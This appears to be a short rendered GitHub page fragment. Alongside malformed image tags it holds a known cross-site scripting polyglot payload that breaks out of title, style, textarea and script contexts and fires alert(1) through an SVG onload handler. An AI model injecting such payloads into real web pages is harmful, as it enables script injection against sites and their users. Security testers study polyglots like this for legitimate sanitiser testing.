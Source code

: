 <imgsrc='https://github.com/MaxPfaeffli/hi?path=epic.svg'> 
<imgsrc='https://cdn.discordapp.com/emojis/699716008532770866.gif'>　　　　　	>	>>	>>javascript:/*--></title></style></textarea></script></xmp>	><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<imgsrc='https://github.com/MaxPfaeffli/hi/edit/main/epic.svg'>

